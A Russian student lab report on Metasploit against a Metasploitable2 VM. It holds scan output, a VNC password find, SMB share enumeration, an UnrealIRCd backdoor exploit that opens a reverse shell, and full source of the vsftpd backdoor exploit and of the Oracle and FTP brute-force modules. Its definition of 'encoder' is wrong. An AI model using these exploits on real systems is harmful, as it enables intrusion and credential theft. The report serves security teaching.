
\documentclass[10pt,a4paper]{report}
\usepackage[utf8]{inputenc}
\usepackage[russian]{babel}
\usepackage{amsmath}
\usepackage{amsfonts}
\usepackage{amssymb}
\usepackage{graphicx}
\usepackage{listings}

\usepackage[left=1.8cm, right=1cm, top=0.8cm, bottom=2cm, 
bindingoffset=0cm]{geometry}

\author{Скрипаль Борис}
\title{Лабораторная работа №4.\\
	Инструмент тестов на проникновение Metasploit}
\begin{document}
	\maketitle
	\renewcommand{\thesection}{\arabic{section}}
	\tableofcontents
	\pagebreak
	
	\setcounter{totalnumber}{10}
	\setcounter{topnumber}{10}
	\setcounter{bottomnumber}{10}
	\renewcommand{\topfraction}{1}
	\renewcommand{\textfraction}{0}
	
	\section{Цель работы}
		Изучение инструмента тестов на проникновение Metasploit.
	\section{Изучение базовых понятий}
		\begin{itemize}
			\item auxiliary - сканнер, использующий уязвимости системы для получения 
			сведений об этой системе.%
			\item payload - часть программы, выполняющая вредоносные действия, 
			например нарушение целостности данных, слежка за пользователем и т.д.%
			\item exploit - фрагмент програмного кода который, используя
			возможности предоставляемые ошибкой, отказом или уязвимостью, ведёт к
			повышению привилегий или отказу в обслуживании компьютерной системы.
			\item shellcode - двоичный исполняемый код, который обычно передаёт 
			управление командному процессору, например '/bin/sh' в Unix shell, 
			'command.com' в MS-DOS и 'cmd.exe' в операционных системах Microsoft 
			Windows. Шелл-код может быть использован как полезная нагрузка эксплойта, 
			обеспечивающая взломщику доступ к командной оболочке в компьютерной 
			системе.
			\item nop - инструкция процессора на языке ассемблера, или команда 
			протокола, которая предписывает ничего не делать (от слова <<no 
			operation>>).
			\item encoder - устройство преобразующее линейное или угловое перемещение 
			в последовательность сигналов, позволяющих определить величину 
			перемещения. 
		\end{itemize}
		
		\section{Список команд msfconsole}
		При вводе команды help в msfconsole выводится достаточно большой список 
		команд:
		\begin{lstlisting}
msf > help

Core Commands
=============

Command       Description
-------       -----------
?             Help menu
advanced      Displays advanced options for one or more modules
back          Move back from the current context
banner        Display an awesome metasploit banner
cd            Change the current working directory
color         Toggle color
connect       Communicate with a host
edit          Edit the current module with $VISUAL or $EDITOR
exit          Exit the console
get           Gets the value of a context-specific variable
getg          Gets the value of a global variable
grep          Grep the output of another command
help          Help menu
info          Displays information about one or more modules
irb           Drop into irb scripting mode
jobs          Displays and manages jobs
kill          Kill a job
load          Load a framework plugin
loadpath      Searches for and loads modules from a path
makerc        Save commands entered since start to a file
options       Displays global options or for one or more modules
popm          Pops the latest module off the stack and makes it active
previous      Sets the previously loaded module as the current module
pushm         Pushes the active or list of modules onto the module stack
quit          Exit the console
reload_all    Reloads all modules from all defined module paths
rename_job    Rename a job
resource      Run the commands stored in a file
route         Route traffic through a session
save          Saves the active datastores
search        Searches module names and descriptions
sessions      Dump session listings and display information about sessions
set           Sets a context-specific variable to a value
setg          Sets a global variable to a value
show          Displays modules of a given type, or all modules
sleep         Do nothing for the specified number of seconds
spool         Write console output into a file as well the screen
threads       View and manipulate background threads
unload        Unload a framework plugin
unset         Unsets one or more context-specific variables
unsetg        Unsets one or more global variables
use           Selects a module by name
version       Show the framework and console library version numbers


Database Backend Commands
=========================

Command           Description
-------           -----------
creds             List all credentials in the database
db_connect        Connect to an existing database
db_disconnect     Disconnect from the current database instance
db_export         Export a file containing the contents of the database
db_import         Import a scan result file (filetype will be auto-detected)
db_nmap           Executes nmap and records the output automatically
db_rebuild_cache  Rebuilds the database-stored module cache
db_status         Show the current database status
hosts             List all hosts in the database
loot              List all loot in the database
notes             List all notes in the database
services          List all services in the database
vulns             List all vulnerabilities in the database
workspace         Switch between database workspaces
		\end{lstlisting}
		
		Рассмотрим некоторые из этих команд:
		\begin{itemize}
			\item db\_connect - подключение к удаленной базе данных;
			\item db\_disconnect - отключение от удаленной базы данных;
			\item hosts - список всех хостов в БД;
			\item use - загрузка модуля по его имени;
			\item search - поиск модуля и его описания;
			\item info - вывод информации о модуле;
			\item load - загрузка плагина;
			\item show - вывод списка модулей.
		\end{itemize}
	
	\section{Подключение доступа к VNC-серверу и получение доступа к консоли}
		Атакующая машина - (kali linux) - 192.168.202.3. Атакуемая машина 
		(Metasploitable2) - 192.168.202.2.
		
		Просканируем порты на атакуемой машине при помощи утилиты nmap:
		\begin{lstlisting}
root@kali:~# nmap 192.168.202.2 -sV

Starting Nmap 7.01 ( https://nmap.org ) at 2016-05-06 16:43 EDT
Nmap scan report for 192.168.202.2
Host is up (0.00039s latency).
Not shown: 977 closed ports
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 2.3.4
22/tcp   open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
23/tcp   open  telnet      Linux telnetd
25/tcp   open  smtp        Postfix smtpd
53/tcp   open  domain      ISC BIND 9.4.2
80/tcp   open  http        Apache httpd 2.2.8 ((Ubuntu) DAV/2)
111/tcp  open  rpcbind     2 (RPC #100000)
139/tcp  open  netbios-ssn Samba smbd 3.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.X (workgroup: WORKGROUP)
512/tcp  open  exec        netkit-rsh rexecd
513/tcp  open  login?
514/tcp  open  shell       Netkit rshd
1099/tcp open  rmiregistry GNU Classpath grmiregistry
1524/tcp open  shell       Metasploitable root shell
2049/tcp open  nfs         2-4 (RPC #100003)
2121/tcp open  ftp         ProFTPD 1.3.1
3306/tcp open  mysql       MySQL 5.0.51a-3ubuntu5
5432/tcp open  postgresql  PostgreSQL DB 8.3.0 - 8.3.7
5900/tcp open  vnc         VNC (protocol 3.3)
6000/tcp open  X11         (access denied)
6667/tcp open  irc         Unreal ircd
8009/tcp open  ajp13       Apache Jserv (Protocol v1.3)
8180/tcp open  http        Apache Tomcat/Coyote JSP engine 1.1
MAC Address: 08:00:27:3B:18:A4 (Oracle VirtualBox virtual NIC)
Service Info: Hosts:  metasploitable.localdomain, localhost, 
irc.Metasploitable.LAN; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at 
https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 28.42 seconds
		\end{lstlisting}
		
		Как видно из вывода, VCN сервер располагается на порте 5900:
		\begin{lstlisting}
5900/tcp open  vnc         VNC (protocol 3.3)
		\end{lstlisting}
		
		Просмотрим модули, для использования уязвимостей в VNC при помощи команды 
		<<search vnc>>:
		\begin{lstlisting}
msf > search vnc

Matching Modules
================

Name                                                 Disclosure Date  
Rank       Description
----                                                 ---------------  
----       -----------
auxiliary/admin/vnc/realvnc_41_bypass                2006-05-15       
normal     RealVNC NULL Authentication Mode Bypass
auxiliary/scanner/vnc/vnc_login                                       
normal     VNC Authentication Scanner
auxiliary/scanner/vnc/vnc_none_auth                                   
normal     VNC Authentication None Detection
auxiliary/server/capture/vnc                                          
normal     Authentication Capture: VNC
exploit/multi/misc/legend_bot_exec                   2015-04-27       
excellent  Legend Perl IRC Bot Remote Code Execution
		\end{lstlisting}
		
		Для работы необходимо запустить модуль auxiliary/scanner/vnc/vnc\_login:
		\begin{lstlisting}
msf > use auxiliary/scanner/vnc/vnc_login 
msf auxiliary(vnc_login) > set RHOSTS 192.168.202.2
RHOSTS => 192.168.202.2
msf auxiliary(vnc_login) > exploit 

[*] 192.168.202.2:5900 - Starting VNC login sweep
[+] 192.168.202.2:5900 - LOGIN SUCCESSFUL: :password
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
		\end{lstlisting}
		Запустим vncviewer и войдем при помощи узнанного пароля:
		
		\begin{lstlisting}
msf auxiliary(vnc_login) > vncviewer 192.168.202.2:5900
[*] exec: vncviewer 192.168.202.2:5900

Connected to RFB server, using protocol version 3.3
Performing standard VNC authentication
Password: 
		\end{lstlisting}
		Результат представлен на рисунке~\ref{ris:vncviewerLogin}.
		
		\begin{figure}[h]
			\centering
			
\includegraphics[width=0.9\textwidth]{res/vncviewerLogin}
			\caption{Получение доступа к консоли при помощи vncviewer}
			\label{ris:vncviewerLogin}
		\end{figure}
		
	\section{Получение списка директорий в общем доступе по протоколу SMB}
		Переключимся на эксплойт smb\_enumshares и запустим его:
		
		\begin{lstlisting}
msf auxiliary(vnc_login) > use auxiliary/scanner/smb/smb_enumshares 
msf auxiliary(smb_enumshares) > exploit 

[+] 192.168.202.2:139 - print$ - (DISK) Printer Drivers
[+] 192.168.202.2:139 - tmp - (DISK) oh noes!
[+] 192.168.202.2:139 - opt - (DISK) 
[+] 192.168.202.2:139 - IPC$ - (IPC) IPC Service (metasploitable server (Samba 
3.0.20-Debian))
[+] 192.168.202.2:139 - ADMIN$ - (IPC) IPC Service (metasploitable server 
(Samba 3.0.20-Debian))
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
		\end{lstlisting}
		
		Из вывода видно список общих директорий: tmp и opt.
		
	\section{Получение консоли используя уязвимость в irc}
		Для использования данной уязвимости используем эксплойт 
		unreal\_ircd\_3281\_backdoor:
		
		\begin{lstlisting}
msf auxiliary(smb_enumshares) > use exploit/unix/irc/unreal_ircd_3281_backdoor 

msf exploit(unreal_ircd_3281_backdoor) > set RHOST 192.168.202.2
RHOST => 192.168.202.2
msf exploit(unreal_ircd_3281_backdoor) > exploit 

[*] Started reverse TCP double handler on 192.168.202.3:4444 
[*] Connected to 192.168.202.2:6667...
:irc.Metasploitable.LAN NOTICE AUTH :*** Looking up your hostname...
:irc.Metasploitable.LAN NOTICE AUTH :*** Couldn't resolve your hostname; using 
your IP address instead
[*] Sending backdoor command...
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo vTLhGHd07reXBJQe;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket B
[*] B: "vTLhGHd07reXBJQe\r\n"
[*] Matching...
[*] A is input...
[*] Command shell session 1 opened (192.168.202.3:4444 -> 192.168.202.2:58172) 
at 2016-05-06 17:34:15 -0400

uname -a
Linux metasploitable 2.6.24-16-server #1 SMP Thu Apr 10 13:58:00 UTC 2008 i686 
GNU/Linux
		\end{lstlisting}
		Как видно из вывода, доступ к консоли был получен.
		
	\section{Осуществление атаки при помощи утилиты Armitage Hail Mary}
		Запустим утилиту Armitage Hail Mary и произведем атаку хоста.
		Результат представлен на рисунке~\ref{ris:armitage}.
		
		\begin{figure}[h]
			\centering
			
\includegraphics[width=0.9\textwidth]{res/armitage}
			\caption{Произведение атаки при помощи утилиты Armitage Hail Mary}
			\label{ris:armitage}
		\end{figure}
	
	\section{Изучение файлов с исходным кодом эксплойтов}
		\subsection{vsftpd\_234\_backdoor.rb}
			Полный путь к файлу: 
			/usr/share/metasploit-framework/modules/exploits/unix/ftp/vsftpd\_234\_backdoor.rb.
			Ниже приведен исходный код скрипта:
			\begin{lstlisting}
##
# This module requires Metasploit: http://metasploit.com/download
# Current source: https://github.com/rapid7/metasploit-framework
##

require 'msf/core'

class Metasploit3 < Msf::Exploit::Remote
Rank = ExcellentRanking

include Msf::Exploit::Remote::Tcp

def initialize(info = {})
super(update_info(info,
'Name'           => 'VSFTPD v2.3.4 Backdoor Command Execution',
'Description'    => %q{
This module exploits a malicious backdoor that was added to the	VSFTPD download
archive. This backdoor was introduced into the vsftpd-2.3.4.tar.gz archive 
between
June 30th 2011 and July 1st 2011 according to the most recent information
available. This backdoor was removed on July 3rd 2011.
},
'Author'         => [ 'hdm', 'MC' ],
'License'        => MSF_LICENSE,
'References'     =>
[
[ 'OSVDB', '73573'],
[ 'URL', 'http://pastebin.com/AetT9sS5'],
[ 'URL', 
'http://scarybeastsecurity.blogspot.com/2011/07/alert-vsftpd-download-backdoored.html'
 ],
],
'Privileged'     => true,
'Platform'       => [ 'unix' ],
'Arch'           => ARCH_CMD,
'Payload'        =>
{
'Space'    => 2000,
'BadChars' => '',
'DisableNops' => true,
'Compat'      =>
{
'PayloadType'    => 'cmd_interact',
'ConnectionType' => 'find'
}
},
'Targets'        =>
[
[ 'Automatic', { } ],
],
'DisclosureDate' => 'Jul 3 2011',
'DefaultTarget' => 0))

register_options([ Opt::RPORT(21) ], self.class)
end

def exploit

nsock = self.connect(false, {'RPORT' => 6200}) rescue nil
if nsock
print_status("The port used by the backdoor bind listener is already open")
handle_backdoor(nsock)
return
end

# Connect to the FTP service port first
connect

banner = sock.get_once(-1, 30).to_s
print_status("Banner: #{banner.strip}")

sock.put("USER #{rand_text_alphanumeric(rand(6)+1)}:)\r\n")
resp = sock.get_once(-1, 30).to_s
print_status("USER: #{resp.strip}")

if resp =~ /^530 /
print_error("This server is configured for anonymous only and the backdoor code 
cannot be reached")
disconnect
return
end

if resp !~ /^331 /
print_error("This server did not respond as expected: #{resp.strip}")
disconnect
return
end

sock.put("PASS #{rand_text_alphanumeric(rand(6)+1)}\r\n")

# Do not bother reading the response from password, just try the backdoor
nsock = self.connect(false, {'RPORT' => 6200}) rescue nil
if nsock
print_good("Backdoor service has been spawned, handling...")
handle_backdoor(nsock)
return
end

disconnect

end

def handle_backdoor(s)

s.put("id\n")

r = s.get_once(-1, 5).to_s
if r !~ /uid=/
print_error("The service on port 6200 does not appear to be a shell")
disconnect(s)
return
end

print_good("UID: #{r.strip}")

s.put("nohup " + payload.encoded + " >/dev/null 2>&1")
handler(s)
end

end
			\end{lstlisting}
			
			Скрипт работает по следующему алгоритму:
			\begin{enumerate}
				\item Происходит подключение к порту 6200
				\begin{lstlisting}
nsock = self.connect(false, {'RPORT' => 6200}) rescue nil
if nsock
print_status("The port used by the backdoor bind listener is already open")
handle_backdoor(nsock)
return
end
				\end{lstlisting}
				
				\item Если сокет открыт, то на ftp сервер отправляется рандомный 
				пользователь и пароль, а так же осуществляется проверки на доступ 
				только анонимным пользователям и на ответ сервера.
				\begin{lstlisting}
sock.put("USER #{rand_text_alphanumeric(rand(6)+1)}:)\r\n")
resp = sock.get_once(-1, 30).to_s
print_status("USER: #{resp.strip}")

if resp =~ /^530 /
print_error("This server is configured for anonymous only and the backdoor code 
cannot be reached")
disconnect
return
end

if resp !~ /^331 /
print_error("This server did not respond as expected: #{resp.strip}")
disconnect
return
end

sock.put("PASS #{rand_text_alphanumeric(rand(6)+1)}\r\n")
				\end{lstlisting}
				
				\item Не получая ответа на ввод пароля пытаемся запустить backdoor.
				\begin{lstlisting}
nsock = self.connect(false, {'RPORT' => 6200}) rescue nil
if nsock
print_good("Backdoor service has been spawned, handling...")
handle_backdoor(nsock)
return
end
				\end{lstlisting}
				
				Payload запускается в методе handle\_backdoor.
				\begin{lstlisting}
def handle_backdoor(s)

s.put("id\n")

r = s.get_once(-1, 5).to_s
if r !~ /uid=/
print_error("The service on port 6200 does not appear to be a shell")
disconnect(s)
return
end

print_good("UID: #{r.strip}")

s.put("nohup " + payload.encoded + " >/dev/null 2>&1")
handler(s)
end
				\end{lstlisting}
			\end{enumerate}
		\subsection{oracle\_login.rb}
			Полный путь к файлу: 
			/usr/share/metasploit-framework/modules/auxiliary/admin/oracle/oracle\_login.rb.
			Ниже приведен исходный код скрипта:
			
			\begin{lstlisting}
##
# This module requires Metasploit: http://metasploit.com/download
# Current source: https://github.com/rapid7/metasploit-framework
##

require 'msf/core'
require 'csv'

class Metasploit3 < Msf::Auxiliary

include Msf::Auxiliary::Report
include Msf::Exploit::ORACLE

def initialize(info = {})
super(update_info(info,
'Name'           => 'Oracle Account Discovery',
'Description'    => %q{
This module uses a list of well known default authentication credentials
to discover easily guessed accounts.
},
'Author'         => [ 'MC' ],
'License'        => MSF_LICENSE,
'References'     =>
[
[ 'URL', 'http://www.petefinnigan.com/default/oracle_default_passwords.csv' ],
[ 'URL', 'http://seclists.org/fulldisclosure/2009/Oct/261' ],
],
'DisclosureDate' => 'Nov 20 2008'))

register_options(
[
OptPath.new('CSVFILE', [ false, 'The file that contains a list of default 
accounts.', File.join(Msf::Config.install_root, 'data', 'wordlists', 
'oracle_default_passwords.csv')]),
], self.class)

deregister_options('DBUSER','DBPASS')

end

def report_cred(opts)
service_data = {
address: opts[:ip],
port: opts[:port],
service_name: opts[:service_name],
protocol: 'tcp',
workspace_id: myworkspace_id
}

credential_data = {
origin_type: :service,
module_fullname: fullname,
username: opts[:user],
private_data: opts[:password],
private_type: :password
}.merge(service_data)

login_data = {
last_attempted_at: Time.now,
core: create_credential(credential_data),
status: Metasploit::Model::Login::Status::SUCCESSFUL
}.merge(service_data)

create_credential_login(login_data)
end

def run
return if not check_dependencies

list = datastore['CSVFILE']

print_status("Starting brute force on 
#{datastore['RHOST']}:#{datastore['RPORT']}...")

fd = CSV.foreach(list) do |brute|
datastore['DBUSER'] = brute[2].downcase
datastore['DBPASS'] = brute[3].downcase

begin
connect
disconnect
rescue ::OCIError => e
if e.to_s =~ /^ORA-12170:\s/
print_error("#{datastore['RHOST']}:#{datastore['RPORT']} Connection timed out")
break
end
else
report_cred(
ip: datastore['RHOST'],
port: datastore['RPORT'],
service_name: 'oracle',
user: "#{datastore['SID']}/#{datastore['DBUSER']}",
password: datastore['DBPASS']
)
print_status("Found user/pass of: #{datastore['DBUSER']}/#{datastore['DBPASS']} 
on #{datastore['RHOST']} with sid #{datastore['SID']}")
end
end
end
end
			\end{lstlisting}
			
			Скрипт работает по следующему алгоритму:
			\begin{enumerate}
				\item Получаем список тестовых логинов и паролей для БД.
				\begin{lstlisting}
list = datastore['CSVFILE']
				\end{lstlisting}
				
				\item В цикле пытаемся подключиться к БД.
				Если попытка удалась, то выводим информацию.
				\begin{lstlisting}
fd = CSV.foreach(list) do |brute|
datastore['DBUSER'] = brute[2].downcase
datastore['DBPASS'] = brute[3].downcase

begin
connect
disconnect
rescue ::OCIError => e
if e.to_s =~ /^ORA-12170:\s/
print_error("#{datastore['RHOST']}:#{datastore['RPORT']} Connection timed out")
break
end
else
report_cred(
ip: datastore['RHOST'],
port: datastore['RPORT'],
service_name: 'oracle',
user: "#{datastore['SID']}/#{datastore['DBUSER']}",
password: datastore['DBPASS']
)
print_status("Found user/pass of: #{datastore['DBUSER']}/#{datastore['DBPASS']} 
on #{datastore['RHOST']} with sid #{datastore['SID']}")
end
end
				\end{lstlisting}
			\end{enumerate}
		\subsection{ftp\_login.rb}
		Полный путь к файлу: 
		/usr/share/metasploit-framework/modules/auxiliary/scanner/ftp/ftp\_login.rb.
		Ниже приведен исходный код модуля:
		\begin{lstlisting}
##
# This module requires Metasploit: http://metasploit.com/download
# Current source: https://github.com/rapid7/metasploit-framework
##

require 'msf/core'
require 'metasploit/framework/credential_collection'
require 'metasploit/framework/login_scanner/ftp'

class Metasploit3 < Msf::Auxiliary

include Msf::Exploit::Remote::Ftp
include Msf::Auxiliary::Scanner
include Msf::Auxiliary::Report
include Msf::Auxiliary::AuthBrute

def proto
'ftp'
end

def initialize
super(
'Name'        => 'FTP Authentication Scanner',
'Description' => %q{
This module will test FTP logins on a range of machines and
report successful logins.  If you have loaded a database plugin
and connected to a database this module will record successful
logins and hosts so you can track your access.
},
'Author'      => 'todb',
'References'     =>
[
[ 'CVE', '1999-0502'] # Weak password
],
'License'     => MSF_LICENSE
)

register_options(
[
Opt::Proxies,
Opt::RPORT(21),
OptBool.new('RECORD_GUEST', [ false, "Record anonymous/guest logins to the 
database", false])
], self.class)

register_advanced_options(
[
OptBool.new('SINGLE_SESSION', [ false, 'Disconnect after every login attempt', 
false])
]
)

deregister_options('FTPUSER','FTPPASS') # Can use these, but should use 
'username' and 'password'
@accepts_all_logins = {}
end


def run_host(ip)
print_status("#{ip}:#{rport} - Starting FTP login sweep")

cred_collection = Metasploit::Framework::CredentialCollection.new(
blank_passwords: datastore['BLANK_PASSWORDS'],
pass_file: datastore['PASS_FILE'],
password: datastore['PASSWORD'],
user_file: datastore['USER_FILE'],
userpass_file: datastore['USERPASS_FILE'],
username: datastore['USERNAME'],
user_as_pass: datastore['USER_AS_PASS'],
prepended_creds: anonymous_creds
)

cred_collection = prepend_db_passwords(cred_collection)

scanner = Metasploit::Framework::LoginScanner::FTP.new(
host: ip,
port: rport,
proxies: datastore['PROXIES'],
cred_details: cred_collection,
stop_on_success: datastore['STOP_ON_SUCCESS'],
bruteforce_speed: datastore['BRUTEFORCE_SPEED'],
max_send_size: datastore['TCP::max_send_size'],
send_delay: datastore['TCP::send_delay'],
connection_timeout: 30,
framework: framework,
framework_module: self,
ssl: datastore['SSL'],
ssl_version: datastore['SSLVersion'],
ssl_verify_mode: datastore['SSLVerifyMode'],
ssl_cipher: datastore['SSLCipher'],
local_port: datastore['CPORT'],
local_host: datastore['CHOST']
)

scanner.scan! do |result|
credential_data = result.to_h
credential_data.merge!(
module_fullname: self.fullname,
workspace_id: myworkspace_id
)
if result.success?
credential_core = create_credential(credential_data)
credential_data[:core] = credential_core
create_credential_login(credential_data)

print_good "#{ip}:#{rport} - LOGIN SUCCESSFUL: #{result.credential}"
else
invalidate_login(credential_data)
vprint_error "#{ip}:#{rport} - LOGIN FAILED: #{result.credential} 
(#{result.status}: #{result.proof})"
end
end

end


# Always check for anonymous access by pretending to be a browser.
def anonymous_creds
anon_creds = [ ]
if datastore['RECORD_GUEST']
['IEUser@', 'User@', 'mozilla@example.com', 'chrome@example.com' ].each do 
|password|
anon_creds << Metasploit::Framework::Credential.new(public: 'anonymous', 
private: password)
end
end
anon_creds
end

def test_ftp_access(user,scanner)
dir = Rex::Text.rand_text_alpha(8)
write_check = scanner.send_cmd(['MKD', dir], true)
if write_check and write_check =~ /^2/
scanner.send_cmd(['RMD',dir], true)
print_status("#{rhost}:#{rport} - User '#{user}' has READ/WRITE access")
return 'Read/Write'
else
print_status("#{rhost}:#{rport} - User '#{user}' has READ access")
return 'Read-only'
end
end


end
		\end{lstlisting}
		Скрипт работает по следующему алгоритму:
		\begin{enumerate}
			\item Вызывается метод run\_host, который производит сканирование.
			Создаются экземпляры учетных данных и сканера.
			\begin{lstlisting}
cred_collection = Metasploit::Framework::CredentialCollection.new(
blank_passwords: datastore['BLANK_PASSWORDS'],
pass_file: datastore['PASS_FILE'],
password: datastore['PASSWORD'],
user_file: datastore['USER_FILE'],
userpass_file: datastore['USERPASS_FILE'],
username: datastore['USERNAME'],
user_as_pass: datastore['USER_AS_PASS'],
prepended_creds: anonymous_creds
)

cred_collection = prepend_db_passwords(cred_collection)

scanner = Metasploit::Framework::LoginScanner::FTP.new(
host: ip,
port: rport,
proxies: datastore['PROXIES'],
cred_details: cred_collection,
stop_on_success: datastore['STOP_ON_SUCCESS'],
bruteforce_speed: datastore['BRUTEFORCE_SPEED'],
max_send_size: datastore['TCP::max_send_size'],
send_delay: datastore['TCP::send_delay'],
connection_timeout: 30,
framework: framework,
framework_module: self,
ssl: datastore['SSL'],
ssl_version: datastore['SSLVersion'],
ssl_verify_mode: datastore['SSLVerifyMode'],
ssl_cipher: datastore['SSLCipher'],
local_port: datastore['CPORT'],
local_host: datastore['CHOST']
)
			\end{lstlisting}
			
			\item Производится сканирование:
			\begin{lstlisting}
scanner.scan! do |result|
credential_data = result.to_h
credential_data.merge!(
module_fullname: self.fullname,
workspace_id: myworkspace_id
)
if result.success?
credential_core = create_credential(credential_data)
credential_data[:core] = credential_core
create_credential_login(credential_data)

print_good "#{ip}:#{rport} - LOGIN SUCCESSFUL: #{result.credential}"
else
invalidate_login(credential_data)
vprint_error "#{ip}:#{rport} - LOGIN FAILED: #{result.credential} 
(#{result.status}: #{result.proof})"
end
			\end{lstlisting}
		\end{enumerate}
	
	\section{Выводы}
	В ходе выполнения лабораторной работы были изучены методы сканирования 
	хостов, опробованы некоторые типы атак.
	Для использования эксплойтов был применен фрэймворк metasploit.
	Так же были опробованы атаки при помощи утилиты armitage и изучены алгоритмы 
	применения некоторых эксплойтов.
\end{document}